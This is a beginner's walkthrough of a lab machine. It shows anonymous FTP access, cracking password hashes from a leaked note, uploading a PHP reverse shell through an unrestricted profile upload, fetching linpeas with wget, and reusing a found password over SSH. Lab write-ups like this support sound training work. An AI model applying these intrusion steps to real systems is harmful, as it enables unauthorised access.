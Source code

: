 This machine is one of the first machines i got root access to. It was really fun and this is going to be like a walkthrough o it.
Advice to beginners just like me, I won't advise you follow this walkthrough back to back as it will really not help you progress well in your journey. You can just come here to check when you get stuck and have tried all possible things you know before.

First we load our machine and get our IP address. For that we use the command <ip a> and we copy our IP address. That will be the target IP. 
![image](https://github.com/Bangis041/academy-/assets/74382096/9c438e88-5791-4089-83fe-921446e9cc60)


We start by doing the normal, scanning for ports to see which ports are opened and vulnerable. For this, I did <nmap -A -p- IP>
![image](https://github.com/Bangis041/academy-/assets/74382096/3d764b7f-820c-41d3-b1d1-34811b658b62)

From the scan above, we can see we had a number of opened ports. Port 21, 22 and 80. Port 21 looked interesting since it's the first and has a content we would like to view and also, anonymous FTP login allowed.
We go ahead to check out what ftp has for us. For that we use <ftp IP> and then we are able to list what files are there. FTP simply means file transfer protocol, it is used to download, upload, and transfer files from one location to another on the internet and between systems.
![image](https://github.com/Bangis041/academy-/assets/74382096/d07f7c83-9256-4046-a6b6-6cf56a21cb1e)


Here we downloaded the note.txt file using <get file-name> and then I viewed it on my attaker's machine. From the note.txt, we found out Grimmie was was a user and dev who uses same passwords everwhere hehe😂 and we also found an SQL database where we saw the student RegNo, passwords and all other things that can be used to login. It was also from 2020 and the message ws from jdelta.

After that we check outh the next port that might matter to us. SSH is not it so we move down to port 80.
Just paste the IP on your browser and check round for any useful information. After loading the website, there was no much information. we only knew what technology was behind it.
![image](https://github.com/Bangis041/academy-/assets/74382096/53b38ac7-4519-4202-90c5-ca4b81d25de3)
Here we proceed to using a directory buster. I will be using gobuster in this instance. SYNTAX: <gobuster dir -u http://IP -w wordlist_file/path>.
![image](https://github.com/Bangis041/academy-/assets/74382096/bdcf9185-6b31-4618-b9a2-1d6e827a3332)

Afer scanning we were able to get two directories. One interests me more and that is /academy. Why? Because I saw something that has to do with student in the note.txt file we saw from FTP. Now we search for http://IP/academy. After loading, we get to see a login page that requires us to use a REG NO and password. I did that and i got an error ![image](https://github.com/Bangis041/academy-/assets/74382096/3282bcab-4f23-4414-895c-ded129a73056)
 so i looked at the password again and realized it was not a password but a hash. Most students used weak passwords😂. I simply used https://crackstation.net to crack the password and it was "student" so i logged in and said to myself "I'm IN !!!" hehe.
![image](https://github.com/Bangis041/academy-/assets/74382096/64a793e0-cdc9-4e1b-8199-4617a0b93152)

Nothing was looking intersting here, just the 'My Profile' page. I uploaded a photo there and it went successful and then i tried to upload a file that was neither .jpg or .png format and it went. I smiled and said to myself, I am in that mode already with one kind of evil smile on my face. The plan here was to create a reverse shell and see if we can gain access. I simply go to google and search for php reverse shell. It bring out one pentestmonkey githb, i moved in there and saw a sweet code i can work with. i copied the entire code and used nano to create a .php file. I named it shell.php. SYNTAX: <nano <file_name>.php>. Read the code and change what needs to be changed, upload and listen. Once agai guys.... I'm in!!!. I tried running <sudo -l> to check if i gain root access, it gave an error. So then i realised i needed to use an automation tool i learnt about on https://tryhackme.com/r/room/linprivesc. Simply go to google and search 'linpeas'. I found the script, ![image](https://github.com/Bangis041/academy-/assets/74382096/2437bec1-dff5-49ae-9557-dd9d001422cb)
i copied and pasted in a .sh file i named linpeas. Now i have to transfer the file to the shell by hosting a webserver ad using wget. since I am transferrig from my machine to the target's mahine, i use <wget http://MY_IP/file> ![image](https://github.com/Bangis041/academy-/assets/74382096/040247fa-141e-4d1f-ab19-828aaee7d1f8). Now is time to change the permission to make it executable and then run!!!. 
![image](https://github.com/Bangis041/academy-/assets/74382096/269bb845-d796-4154-81b7-ddd10c3906ee)
We were given what to look out for also...made work easier. While scrolling through, I was able to get this...* * * * * /home/grimmie/backup.sh and also this 👇
![image](https://github.com/Bangis041/academy-/assets/74382096/a4edae2d-e509-426d-990c-a40d80c03c68) and also a password that kept repeating itself in multiple instances. I think now is time i use port 22 which is SSH since we have confirmed that Grimmie is a user and we have a possible password. SYNTAX for SSH: <ssh user@IP> and guess what again guys...I'm in🥱. 
![image](https://github.com/Bangis041/academy-/assets/74382096/481ae434-82a8-40db-bdd9-f84eac966f9d)


